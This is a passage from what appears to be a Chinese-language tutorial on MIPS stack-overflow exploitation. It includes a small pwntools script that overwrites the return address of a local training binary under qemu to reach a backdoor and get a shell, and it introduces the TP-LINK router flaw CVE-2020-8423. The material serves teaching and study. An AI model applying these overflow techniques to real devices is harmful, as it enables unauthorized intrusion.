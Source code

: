 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f66d39cdf7f30e78.png)

即下图所示的位置。

[![](https://p5.ssl.qhimg.com/t01853b5d6149ea86f0.png)](https://p5.ssl.qhimg.com/t01853b5d6149ea86f0.png)

经过实际测试我们输入28+4个字节能够覆盖到返回地址，下图中也显示程序的流程被我们所控制。

[![](https://p1.ssl.qhimg.com/t0186d84b3d456f071f.png)](https://p1.ssl.qhimg.com/t0186d84b3d456f071f.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t017d339aef92b4d7ba.png)

接下来让我们写一个简单的exploit，运行exp就能获得shell（不过不是qemu里面的shell，而是系统的shell，这点很奇怪，也许是qemu用户模式并没有挂文件系统和内核的缘故）

```
from pwn import *

context.binary = "vuln"

back_door=0x0400390
payload=p32(0x12345678)*7+p32(back_door)

print(payload)

io=process(argv=["qemu-mipsel", "./vuln" , payload])

#context.log_level='Debug'

io.interactive()
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t013d439bff22544441.gif)

这里贴上一个链接，方便指令集查阅[https://blog.csdn.net/gujing001/article/details/8476685](https://blog.csdn.net/gujing001/article/details/8476685)



## CVE-2020-8423

漏洞设备：TP-LINK TL-WR841N V10

漏洞原因：栈溢出

> CVE-2020-8423是TP-LINK路由器中http服务在解析用户HTTP头中字符串没有设置正确的缓冲区大小而导致的栈溢出。

### <a class="reference-link" name="%E9%85%8D%E7%BD%AE%E8%BF%90%E8%A1%8C%E7%8E%AF%E5%A2%83"></a>配置运行环境
